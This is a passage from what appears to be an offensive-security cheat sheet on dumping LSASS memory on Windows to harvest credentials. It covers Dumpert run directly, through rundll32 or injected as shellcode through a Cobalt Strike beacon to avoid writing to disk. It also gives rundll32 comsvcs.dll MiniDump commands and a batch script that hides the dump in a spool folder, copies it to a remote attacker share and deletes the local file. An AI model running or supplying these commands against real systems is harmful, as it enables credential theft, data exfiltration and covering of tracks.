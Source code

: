 `Dumpert` can be used either as a standalone executable or as a `DLL`, that can
be executed using the Windows built-in `rundll32` utility:

```bash
Dumpert.exe

rundll32.exe Dumpert-DLL.dll,Dump
```

A `Shellcode Reflective DLL Injection (sRDI)` version of the code is also
provided, coupled with a `Cobalt Strike` `agressor` script that uses the
`Cobalt Strike`'s beacon `shinject` command to inject the `sRDI` shellcode
into the current process. Through this execution method, `Dumpert` is executed
without the executable file being written to the compromised system disk.

The `sRDI` shellcode is a conversion of the `Dumpert` `DLL` made using the
`sRDI` project's `ConvertToShellcode.py` Python script:

```bash
python3 ConvertToShellcode.py Outflank-Dumpert.dll
```

After importing the `Outflank-Dumpert.cna` `agressor` script in `Cobalt Strike`
(`Cobalt Strike` -> `Script Manager` -> Load), the `dumpert` command can be
used through a `Cobalt Strike` beacon. The command will inject the shellcode
into the beacon process, dump `LSASS` into `C:\Windows\Temp\dumpert.dmp` using
`Dumpert` (`DLL` version), and finally download the dump file on the C2 server.

```
beacon> dumpert
beacon> rm C:\Windows\Temp\dumpert.dmp
```

###### Windows built-in comsvcs.dll

The Windows built-in DLL `comsvcs.dll` exposes the `MiniDump` function that can
be leveraged to dump the `LSASS` process. The `rundll32` Windows built-in
utility can be used to load the `comsvcs.dll` `DLL` and run the `MiniDump`
function.

Note that the process conducting the dump must have debug privileges (i.e the
`SeDebugPrivilege` privilege enabled), which is by default the case of
`PowerShell` process run from an elevated context.

```Powershell
tasklist /FI "imagename eq lsass.exe"
Get-Process lsass | Ft Id

rundll32 C:\Windows\System32\comsvcs.dll MiniDump <LSASS_PID> "<PATH_LSASS_DUMP>" full
powershell -c rundll32 C:\Windows\System32\comsvcs.dll MiniDump <LSASS_PID> "<PATH_LSASS_DUMP>" full
```

The following `bat` script automates the process and exfiltrate the `lsass`
dump to a remote share:

```
For /F "Tokens=2" %%I in ('tasklist /FI "imagename eq lsass.exe"') Do Set LsassPid=%%I

powershell.exe -c rundll32 C:\windows\system32\comsvcs.dll MiniDump %LsassPid% "C:\Windows\System32\spool\drivers\color\lsass.dmp" full

IF EXIST "C:\Windows\System32\spool\drivers\color\lsass.dmp" (
	dir \\<LHOST>\TMP
	xcopy /Y /i /q "C:\Windows\System32\spool\drivers\color\lsass.dmp" "\\<LHOST>\TMP"
  del "C:\Windows\System32\spool\drivers\color\lsass.dmp"
)
```

